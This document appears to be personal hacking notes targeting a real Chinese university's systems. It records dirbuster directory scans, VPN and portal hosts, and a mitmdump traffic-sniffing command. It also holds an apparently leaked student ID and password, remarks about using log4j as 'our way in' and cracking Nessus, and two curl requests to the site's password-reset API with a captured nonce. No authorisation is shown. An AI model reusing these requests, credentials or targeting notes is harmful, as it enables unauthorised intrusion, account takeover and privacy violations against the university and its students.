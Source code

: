 ```yaml
---
{"category": "hacking", "created": "2021-12-22T05:45:58.000Z", "date": "2021-12-22 05:45:58", "description": "The article discusses hacking attempts on lixin.edu.cn and the use of tools such as dirbuster and Kali Linux to find vulnerabilities. It also includes a HTTP request command for changing passwords on the server.", "modified": "2022-08-18T16:04:01.502Z", "tags": ["freelancer", "hack"], "title": "The Hack (Get password and tests)"}
---
```

dirbuster has found something over  "http://oa.lixin.edu.cn//test/"
+ http://oa.lixin.edu.cn//admin (CODE:301|SIZE:237)
+ http://oa.lixin.edu.cn//css (CODE:301|SIZE:235)
+ http://oa.lixin.edu.cn//help (CODE:301|SIZE:236)
+ http://oa.lixin.edu.cn//images (CODE:301|SIZE:238)
+ http://oa.lixin.edu.cn//js (CODE:301|SIZE:234)
+ http://oa.lixin.edu.cn//setup (CODE:301|SIZE:237)
+ http://oa.lixin.edu.cn//template (CODE:301|SIZE:240)
+ http://oa.lixin.edu.cn//test (CODE:301|SIZE:236)
+ http://oa.lixin.edu.cn///admin (CODE:301|SIZE:237)
+ http://oa.lixin.edu.cn///help (CODE:301|SIZE:236)
+ http://oa.lixin.edu.cn///images (CODE:301|SIZE:238)
+ http://oa.lixin.edu.cn///script (CODE:301|SIZE:238)
suspicious:
http://oa.lixin.edu.cn/oanew/sys/taskcenterapp/*default/index.do
portal (even in the internet):
http://202.121.255.3:8080/portal
Scan this website with kali linux.
The Intranet Gateway For Campus: (maybe less hops?)
https://app.topsec.com.cn
mitmdump --mode socks5 --listen-port 8050 -w logs.log --flow-detail 3 --set stream_websocket=true
pdvpn.lixin.edu.cn
pdvpn2.lixin.edu.cn
vpn.lixin.edu.cn
vpn2.lixin.edu.cn
xxb.lixin.edu.cn/jszl/57078.htm
201960630:CHENweiyi0519
https://cas.paas.lixin.edu.cn/cas/login?service=https%3A%2F%2Flxjw.lixin.edu.cn%2Fcas%2Flogin
https://security-center.paas.lixin.edu.cn/find-pwd
20039370
missing puzzle for changing password:
trial user:
201960249
found russia hacker's kali tool site: https://en.kali.tools/all/
apparently we have some issue with log4j and this could be our way in, the damn server.
sniffing the whole damn campus is only possible if we know how to get into the same subnet of all people.
have searched related websites with site:lixin.edu.cn, could get more if keep doing so, using dnsenum.
to get all site links with proper titles, we need to use playwright.
nessus scanner has that 16 ips limitation, we need to crack/patch it first.
to master kali linux, recommend to scrape kali_tools (https://tools.kali.org/) and tutorialspoint (https://www.tutorialspoint.com/kali_linux/index.htm) for kali, or just simply using manpage.
cisco router is untouched till now. need we to scan it?
(intermediate ip addresses)
curl 'https://personal-security-center.paas.lixin.edu.cn/api/v1/personal/open/passwordStrategy/verify' \
-H 'Connection: keep-alive' \
-H 'sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98", "Google Chrome";v="98"' \
-H 'Accept: application/json, text/plain, */*' \
-H 'Content-Type: application/json;charset=UTF-8' \
-H 'sec-ch-ua-mobile: ?0' \
-H 'User-Agent: Mozilla/5.0 (X11; CrOS aarch64 14371.0.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4729.0 Safari/537.36' \
-H 'sec-ch-ua-platform: "Chrome OS"' \
-H 'Origin: https://security-center.paas.lixin.edu.cn' \
-H 'Sec-Fetch-Site: same-site' \
-H 'Sec-Fetch-Mode: cors' \
-H 'Sec-Fetch-Dest: empty' \
-H 'Referer: https://security-center.paas.lixin.edu.cn/' \
-H 'Accept-Language: en-US,en;q=0.9' \
--data-raw '{"password":"abcdefABC","userId":""}' \
--compressed
curl 'https://personal-security-center.paas.lixin.edu.cn/api/v1/personal/open/forgotPassword/changePassword' \
-H 'Connection: keep-alive' \
-H 'sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98", "Google Chrome";v="98"' \
-H 'Accept: application/json, text/plain, */*' \
-H 'Content-Type: application/json;charset=UTF-8' \
-H 'sec-ch-ua-mobile: ?0' \
-H 'User-Agent: Mozilla/5.0 (X11; CrOS aarch64 14371.0.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4729.0 Safari/537.36' \
-H 'sec-ch-ua-platform: "Chrome OS"' \
-H 'Origin: https://security-center.paas.lixin.edu.cn' \
-H 'Sec-Fetch-Site: same-site' \
-H 'Sec-Fetch-Mode: cors' \
-H 'Sec-Fetch-Dest: empty' \
-H 'Referer: https://security-center.paas.lixin.edu.cn/' \
-H 'Accept-Language: en-US,en;q=0.9' \
--data-raw '{"confirmPassword":"abc123ABC","newPassword":"abc123ABC","nonce":"YzhhZmZjYzktNWQ3Ny00MGU1LTg0ODgtYTYzZTMzMDZkMjU0XzE2NDAyNjg5MzcyNTY"}' \
--compressed